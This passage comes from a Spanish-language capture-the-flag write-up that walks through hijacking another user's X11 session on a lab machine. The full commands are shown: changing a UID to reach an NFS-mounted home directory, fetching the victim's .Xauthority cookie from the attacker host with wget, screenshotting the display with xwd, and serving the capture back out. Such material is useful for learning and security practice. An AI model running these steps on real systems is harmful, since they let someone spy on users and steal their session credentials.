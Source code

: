 Bien, la idea en este caso va a ser secuestrar la pantalla de *ross*. Me explico, la clave está en el fichero **.Xauthority** que hemos localizado, y que para nuestra desgracia no tenemos ningún permiso (no iba a ser tan fácil). 

Este fichero se encuentra en el directorio principal de cada usuario y se usa para almacenar credenciales en las cookies utilizadas por xauth para la autenticación de XServer. De esta forma, si secuestramos este archivo, podremos autenticarnos en Xserver y ver la pantalla de ese usuario en tiempo real.

~~~
alex@squashed:/home/alex$ who -Hu
NAME     LINE         TIME         IDLE          PID COMMENT
ross     tty7         Nov 27 23:20  old         1287 (:0)
~~~

Aquí podemos ver que *ross* está conectado en la pantalla 1 (:0) y parece que se olvidó de cerrar la sesión debido a su inactividad... así que vamos a aprovecharnos de su ausencia 😉.

En primer lugar, igual que antes, vamos a cambiar el UID del usuario que creamos para que pueda acceder a la carpeta que tenemos montada en /mnt/ross:

~~~bash
❯ ls -lnd /mnt/ross
drwxr-xr-x 14 1001 1001 4096 nov 28 00:20 /mnt/ross
❯ sudo usermod -u 1001 test
~~~

Ahora crearemos el servidor Python en /mnt/ross y lo pasaremos a /home/alex con wget:

~~~bash
❯ su test
Contraseña: 
┌─[test@parrot]─[/home/kaian]
└──╼ $cd /mnt/ross
┌─[test@parrot]─[/mnt/ross]
└──╼ $python3 -m http.server
~~~

~~~
alex@squashed:/home/alex$ wget 10.10.14.106:8000/.Xauthority
--2022-11-29 01:34:05--  http://10.10.14.106:8000/.Xauthority
Connecting to 10.10.14.106:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 57 [application/octet-stream]
Saving to: '.Xauthority.1'

.Xauthority.1       100%[===================>]      57  --.-KB/s    in 0.05s   

2022-11-29 01:34:05 (1.15 KB/s) - '.Xauthority.1' saved [57/57]
~~~

Ahora nos apoderamos de la cookie, acto seguido le sacamos una captura a la pantalla de *ross* y creamos servidor Python para transferirla a la máquina atacante:

~~~
alex@squashed:/home/alex$ export XAUTHORITY=.Xauthority.1 
alex@squashed:/home/alex$ xwd -root -screen -silent -display :0 > captura 
alex@squashed:/home/alex$ python3 -m http.server 3456
~~~

